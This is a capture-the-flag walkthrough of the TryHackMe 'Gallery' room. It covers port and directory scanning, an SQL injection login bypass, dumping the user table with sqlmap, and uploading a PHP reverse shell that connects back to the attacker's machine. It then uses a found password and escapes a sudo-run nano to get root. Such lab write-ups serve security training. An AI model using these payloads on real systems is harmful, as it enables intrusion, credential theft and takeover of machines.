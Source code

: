 # Gallery

**Room Link:** [https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>



### TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```







### TCP/80 - HTTP

<figure><img src="../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

SQL injection worked on username field

```
Username: 1' or '1'='1'-- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

We found two databases

**Kali**

```
sudo sqlmap -r request.req --dbs
```

<figure><img src="../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

Get tables

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables
```

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

Get fields for table users

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables -T users --columns
```



<figure><img src="../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Get values of the username and password fields. I couldn't crack the hash.

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables -T users  -C username,password --dump
```

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

I was able to upload a php reverse shell instead of an image

**Kali**

```
nc -lvnp 443
```

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

<pre><code><strong>python3 -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>

<figure><img src="../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

We found a list of passwords from mike in a file called accounts and another password in history

<figure><img src="../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su mike
Password: b3stpassw0rdbr0xx
```

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

**Exploit:** [https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/)

mike is able to run a script with NOPASSWD, looking at the script it, there are a few options to select. One option is to run nano which we can use to get sudo. I also noticed my terminal would not open nano so I exported xterm

**Victim**

```
sudo -l
export TERM="xterm"
```

<figure><img src="../../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
```

<figure><img src="../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

